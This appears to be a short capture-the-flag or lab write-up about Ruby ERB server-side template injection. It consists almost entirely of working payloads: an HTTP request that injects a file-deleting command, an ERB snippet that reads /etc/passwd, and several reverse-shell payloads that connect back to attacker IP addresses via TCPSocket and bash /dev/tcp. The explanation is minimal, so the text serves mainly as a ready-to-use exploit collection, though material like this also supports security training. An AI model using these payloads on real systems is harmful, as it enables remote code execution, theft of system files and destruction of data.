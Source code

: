 I used this payload to do the asked task using command injection:
```
GET /?message=<%= IO.popen('rm morale.txt').read %> HTTP/2
```

Lot of reading
https://docs.ruby-lang.org/en/2.3.0/ERB.html
https://github.com/payloadbox/ssti-payloads


I checked some and the ERB injection allows:

```erb
<%= File.open('/etc/passwd').read %>
```


Initially I tried to launch a reverse shell from the vulnerable Ruby/ERB template to your attack machine.

##  Ruby Reverse Shell Payload (SSTI)

```erb
<%= require 'socket'; s=TCPSocket.new("10.17.19.181",9001);while(cmd=s.gets);IO.popen(cmd,"r"){|io|s.print io.read}end %>
```

```erb
<%= eval "s=TCPSocket.new('10.10.14.42',9001);loop{c=s.gets;IO.popen(c){|io|s.puts io.read}}" %>
```

##  Alternative Ruby RCE Vectors

- **System call:**
    ```erb
    <%= system("bash -i >& /dev/tcp/10.10.14.42/9001 0>&1") %>
    ```

- **Backticks:**
    ```erb
    <%= `bash -c 'bash -i >& /dev/tcp/10.10.14.42/9001 0>&1'` %>
    ```

- **IO.spawn variant:**
    ```erb
    <%= IO.popen("bash -i >& /dev/tcp/10.10.14.42/9001 0>&1") %>
    ```
